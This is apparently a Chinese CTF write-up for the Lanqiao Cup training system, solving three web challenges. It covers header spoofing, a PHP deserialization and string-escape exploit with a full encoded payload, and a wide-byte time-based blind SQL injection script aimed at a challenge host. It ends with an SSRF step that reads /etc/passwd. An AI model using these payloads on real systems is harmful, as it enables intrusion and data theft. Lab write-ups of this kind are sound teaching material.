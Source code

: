 蓝桥杯CTF的官方训练系统

# Web

## 禁止访问

通过 BurpSuite 的 Repeater 添加 Header 头 `client-ip: 192.168.1.1` 后即可获取 flag

## ezphp

打开网页，显示一张图片，源码提示header（?），随后burp抓包在返回包看到`Admin_page: admin3ecr3t.php`，于是访问路径

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class A{
    public $key;
    public function readflag(){
        if($this->key === "\0key\0"){
            readfile('/flag');
        }
    }
}
class B{
    public function  __toString(){
        return ($this->b)();
    }
}
class C{
    public $s;
    public $str;
    public function  __construct($s){
        $this->s = $s;
    }
    public function  __destruct(){
        echo $this->str;
    }
}

$ser = serialize(new C($_GET['c']));
$data = str_ireplace("\0","00",$ser);
unserialize($data);
?>
```

### 序列化构造

- 看到有unserialize()函数，找找看有无`__wakeup()`和 `__destruct()` 方法，本题中找到了 `__destruct()` 

- __construct()创建对象触发

  __toString()类当作字符串传入触发

  __destruct()对象销毁触发

  str_ireplace()正则匹配函数，**大小写不敏感**

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class A{
    public $key;

    //Add
    public function __construct() {
        $this->key = "\0key\0";
    }

    public function readflag(){
        if($this->key === "\0key\0"){
            readfile('/flag');
        }
    }
}
class B{
    public $b;

    //Add
    public function __construct() {
        $this->b = [new A(), "readflag"]; //存储实例和字符串
    }

    //Add
    public function  __toString() {
        ($this->b)(); //调用$this->b存储的方法
        return "";
    }
}
class C{
    public $s;
    public $str;
    public function  __construct($s){
        $this->s = '';
        $this->str = new B();
    }
    public function  __destruct(){
        echo $this->str;
    }
}

$ser = serialize(new C($_GET['c'])); // 获得类C的序列化模板串
echo $ser;
?>

// 输出
O:1:"C":2:{s:1:"s";s:0:"";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";s:5:" key ";}i:1;s:8:"readflag";}}}
```

### 字符逃逸

- PHP字符串
  - 双引号包裹：转义`\0`或者`\00`，表示空字符占位
  - 单引号包裹：`\0`不会被正确转义
- GET请求参数`c`，实例化对象时调用__construct($s)方法，传入变量`$s`即为`c`内容，构造函数中`$this->s = $s;`，赋值给全局变量`$s`

**嵌入payload后的序列化拼接串**

O:1:"C":2:{s:1:"s";s:98:"`";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";S:5:"\ key\ ";}i:1;s:8:"readflag";}}}`";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";s:5:" key ";}i:1;s:8:"readflag";}}}



序列化串中 **`s` 不能识别十六进制字符`0x00`**，因此需要将 `s` 改为 `S` 

此时**变量s长度为98**，所以需要98个0，匹配替换后长度**扩展为196**，将后面闭合部分字符**填满**，实现逃逸



**扩展后的序列化拼接串**

O:1:"C":2:{s:1:"s";s:196:"`00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";S:5:"\ key\ ";}i:1;s:8:"readflag";}}}`";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";s:5:" key ";}i:1;s:8:"readflag";}}}



**POC**

- 题中WAF过滤`str_ireplace("\0","00",$ser);`会将`\0` 变成 `00`，所以替换输出的序列化串中`\ key\  `为`\%00key\%00 `，实现等价绕过

  ```php
  <?php
  function filter($a) {
      $a = str_ireplace("\0","00",$a);
      // 与$a = str_ireplace('\0'.'00',$a);不同，单引号是纯文本替换，双引号是替换对应的转移后内容
      return $a;
  }
  
  $a1 = "\0";
  $a2 = "\00";
  
  var_dump(filter($a1));
  var_dump(filter($a2));
  var_dump(filter($a1) == filter($a2));
  ?>
  
  // URL编码中%00等价于PHP中转义字符\0，即�
  // \%00以URL编码%5C%00传参后解析为\�，经过过滤，\�变为\00，成为新的序列化串中s的内容部分，\00反序列化中经过PHP重新解析为�，即与\0等价，成功实现绕过
  string(2) "00"
  string(2) "00"
  bool(true)
  ```

```php
0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";S:5:"\%00key\%00";}i:1;s:8:"readflag";}}}
```

urlEncode + 00-->%00截断(**%00被解码为0x00**)

`str_repeat("%00", 96).******`生成96个%00

```php
%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%22%3Bs%3A3%3A%22str%22%3BO%3A1%3A%22B%22%3A1%3A%7Bs%3A1%3A%22b%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A1%3A%22A%22%3A1%3A%7Bs%3A3%3A%22key%22%3BS%3A5%3A%22%5C%00key%5C%00%22%3B%7Di%3A1%3Bs%3A8%3A%22readflag%22%3B%7D%7D%7D
```

## 内部员工系统

- 输入username直接提交看回显，admin显示`pass error`，其他乱输的账号显示`pass right`，说明存在admin用户;对于不存在的用户，输入错误密码则回显`pass error`

  ```php
  不输入密码直接提交时，对于不存在的用户xsssds，password为空，则pass=''为true
  select * from xxx where name ='xsssds' and pass = ''
  ```

- admin' / admin"提交，回显`input right pass to admin`，说明不存在单引号 / 双引号闭合

**但是本题不是这么做的，考虑宽字节注入**

查看源码，页面设置的**GBK编码**

```html
<head>
    <meta charset="GBK">
```

再通过测试发现能够使用**宽字节注入**，利用**延时注入**搭配16进制**绕过引号的限制**，爆破获得密码`T3y_T0_Adm1n_S3Rf`

**payload**

```python
import requests
import binascii # 转换二进制数据和 ASCII 字符串

url = 'http://eci-2zefpkb9jv5wowlgklhi.cloudeci1.ichunqiu.com:80'
c = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

f = ''

for x in range(50):
    for s in c:
        try:
            print(f'第{x}轮字符{s}')
            # regexp binary 转为二进制数据进行正则
            # [2:]去掉前缀0x
            # .rjust(2, '0')十六进制数值右对齐，总宽度为 2，并在左侧用 0进行填充————保证每个十六进制数值都是两位数
            sql = f"%df\" || pass regexp binary 0x5e{f + hex(ord(s))[2:].rjust(2, '0')} || sleep(3)#"
            print(sql)
            data = f'name={sql}&pass=a'
            headers = {'Content-Type': 'application/x-www-form-urlencoded'}
            requests.post(url, data=data, timeout=2, headers=headers)
            f += hex(ord(s))[2:].rjust(2, '0')
            print(f)
            print(binascii.a2b_hex(f))  # 十六进制表示的字符串转换为其对应的二进制数据流
            break
        except:
            pass
```

往下就是SSRF漏洞利用，查阅得知CURLOPT_URL = 10002; 

**POST传参**

- `curl_opt[10002]=file:///etc/passwd`

